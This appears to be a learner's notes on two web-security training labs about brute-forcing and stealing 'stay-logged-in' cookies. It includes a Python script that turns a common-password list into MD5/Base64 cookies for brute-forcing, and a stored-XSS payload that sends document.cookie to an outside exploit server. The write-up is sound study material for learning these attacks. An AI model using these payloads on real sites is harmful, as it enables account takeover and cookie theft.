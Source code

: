 ```yaml
---
tags: ["cookie", "stay logged in"]
---
```


## Keeping users logged in

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially deduce how it is generated. Once they work out the formula, they can try to brute-force other users' cookies to gain access to their accounts.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

## Lab: Brute-forcing a stay-logged-in cookie

--> This website is storing the password in the `stay-logged-in` cookie in the encrypted form.

So we have to pass this request to intruder and then brute force the `stay-logged-in` cookie for `carlos` user

![](Attachments/Pastedimage20220204131145.png)

--> but first we have to logout because it will redirect us to this page only if we are logged in without checking the cookie.

And to encrypt the passwords according to cookie logic i made one python script:

```py
import hashlib
import base64

passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

converted = []
for password in passwords:
	hash_object = hashlib.md5(password.encode())
	md5_hash = hash_object.hexdigest()
	md5_hash = str(md5_hash)
	myCookie = "carlos:"
	myCookie += md5_hash
	convert_b64_bytes = myCookie.encode('ascii')
	base64_bytes = base64.b64encode(convert_b64_bytes)
	base64_string = base64_bytes.decode("ascii")
	base64_string = str(base64_string)

	converted.append(base64_string)

for word in converted:
	print(word)



# sample_string = "GeeksForGeeks is the best"
# sample_string_bytes = sample_string.encode("ascii")

# base64_bytes = base64.b64encode(sample_string_bytes)
# base64_string = base64_bytes.decode("ascii")
```

--> After running the python file i got all the encoded_cookies so now just we have to brute force them!

And after some time i found the correct cookie which gave us `200` status code!

![](Attachments/Pastedimage20220204131645.png)

And we solved the lab!

![](Attachments/Pastedimage20220204130542.png)

---

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

# Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

--> So first i logged in as `wiener` and then i found that we can comment on any post so i opened one post and commented the stored XSS payload :

```markup
<script>document.location='//exploit-acc81fe51e0eddf3c0598bf601660076.web-security-academy.net/'+document.cookie</script>
```

![](Attachments/Pastedimage20220204143051.png)

--> After posting the comment i went to `exploit server` and then went to `access logs` and found the cookie of `carlos`

![](Attachments/Pastedimage20220204143159.png)

--> After decoding the cookie from `base64` and `md5` i found the password as `onceuponatime` and i logged in as `carlos` and now we have to delete the account of carlos so click on delete account

![](Attachments/Pastedimage20220204134737.png)

--> It will ask for password, click `delete account!`

![](Attachments/Pastedimage20220204134800.png)

And we solved the lab!
